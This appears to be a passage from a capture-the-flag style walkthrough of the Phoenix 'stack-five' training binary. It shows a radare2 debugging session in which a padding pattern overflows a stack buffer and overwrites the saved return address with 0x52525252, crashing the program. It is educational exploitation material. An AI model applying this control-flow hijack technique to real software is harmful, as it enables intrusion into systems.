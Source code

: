 *Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

```shell
$ r2 -d /opt/phoenix/i486/stack-five -r theProfile.rr2
```

```nasm
[0xf7fc5d4b]> aas
Cannot analyze at 0x08048520
[0xf7fc5d4b]> db 0x08048498
[0xf7fc5d4b]> dc
Welcome to phoenix/stack-five, brought to you by https://exploit.education
hit breakpoint at: 8048498
[0x08048498]> dr
eax = 0xffffd370
ebx = 0xf7ffb000
ecx = 0xffffd340
edx = 0x00000000
esi = 0xffffd494
edi = 0x00000001
esp = 0xffffd360
ebp = 0xffffd3f8
eip = 0x08048498
eflags = 0x00000292
oeax = 0xffffffff
[0x08048498]> px/40xw 0xffffd360
0xffffd360  0xffffd370 0xffffd388 0xffffd408 0xf7fb5da9  p............]..
0xffffd370  0xf7ffb1e0 0xffffd3bf 0x00000001 0x00000000  ................
0xffffd380  0x00b0bc7e 0x00000001 0x00960026 0x00000000  ~.......&.......
0xffffd390  0x0000000a 0xf7ffb1e0 0x00000000 0xf7fb5ab8  .............Z..
0xffffd3a0  0xf7ffb1e0 0xffffd3bf 0x00000001 0x0000000a  ................
0xffffd3b0  0x08048520 0x08048511 0x00000000 0x0afb7038   ...........8p..
0xffffd3c0  0xf7fb5a5b 0xf7ffb000 0xf7ffb1e0 0xf7fb8958  [Z..........X...
0xffffd3d0  0xf7ffb1e0 0x0000000a 0x00000000 0x00000000  ................
0xffffd3e0  0xf7ffb000 0xffffd494 0x00000001 0x080484c1  ................
0xffffd3f0  0x08048520 0x00000000 0xffffd408 0x080484c9   ...............
[0x08048498]> px/xw 0xffffd3f8+0x4
0xffffd3fc  0x080484c9                                   ....
[0x08048498]> dso
hit breakpoint at: 804849d
[0x08048498]> px/40xw 0xffffd360
0xffffd360  0xffffd370 0xffffd388 0xffffd408 0xf7fb5da9  p............]..
0xffffd370  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd380  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd390  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd3a0  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd3b0  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd3c0  0x53535353 0x53535353 0x53535353 0x53535353  SSSSSSSSSSSSSSSS
0xffffd3d0  0x53535353 0x53535353 0x53535353 0x53535353  SSSSSSSSSSSSSSSS
0xffffd3e0  0x50535353 0x50505050 0x50505050 0x50505050  SSSPPPPPPPPPPPPP
0xffffd3f0  0x50505050 0x50505050 0x50505050 0x52525252  PPPPPPPPPPPPRRRR
[0x08048498]> px/xw 0xffffd3f8+0x4
0xffffd3fc  0x52525252                                   RRRR
[0x08048498]> dc
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x52525252 code=1 ret=0
[0x52525252]> dr
eax = 0xffffd370
ebx = 0xf7ffb000
ecx = 0xfefeff09
edx = 0x80808000
esi = 0xffffd494
edi = 0x00000001
esp = 0xffffd400
```